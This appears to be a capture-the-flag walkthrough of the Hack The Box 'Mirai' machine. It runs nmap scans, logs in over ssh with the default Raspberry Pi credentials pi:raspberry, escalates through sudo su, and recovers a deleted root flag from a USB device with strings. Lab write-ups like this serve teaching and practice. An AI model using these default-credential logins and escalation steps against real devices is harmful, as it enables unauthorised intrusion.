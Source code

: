![Mirai.PNG](/assets/Machines/Easy/Mirai/Mirai.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.48
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.48
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1906/tcp  open  tpmd
32400/tcp open  plex
32469/tcp open  unknown
```

3. If we wisit web page is empty, but with curl we can look headers request
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Mirai]
└─| curl -s -X GET 'http://mirai.htb' -I
HTTP/1.1 200 OK
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Date: Wed, 28 Dec 2022 19:15:56 GMT
Server: lighttpd/1.4.35
```
* We watch use Pi-Hole (Uses in RaspberryPi)
* If we search in admin directory we can see this 

![web.PNG](/assets/Machines/Easy/Mirai/web.PNG)

4. Search for default credentials of RaspberryPi
* **Credentials:** `pi:raspberry`

5. Try to connect with ssh with previous credentials
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Mirai]
└─| ssh pi@10.10.10.48
```

**Output**
```bash
pi@raspberrypi:~$ whoami
pi
```

6. Cat **user flag**
```bash
pi@raspberrypi:~$ cat Desktop/user.txt; echo
ff837707441b257a20e32199d7c8838d
```

---
---
---
### **Privileges Escalation** 💀

1. Look our groups
```bash
pi@raspberrypi:~$ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

* We stay in sudo group!

2. Login how root
```bash
pi@raspberrypi:~$ sudo su
root@raspberrypi:/home/pi# whoami
root
```

3. If we cat root flag look that
```bash
root@raspberrypi:/home/pi# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

4. Search of all devices connect to target machine
```bash
root@raspberrypi:/home/pi# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
```

5. Print strings readable for **/media/usbstick**
```bash
root@raspberrypi:/home/pi# strings /dev/sdb
```

**Output**
```bash
...
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
...
```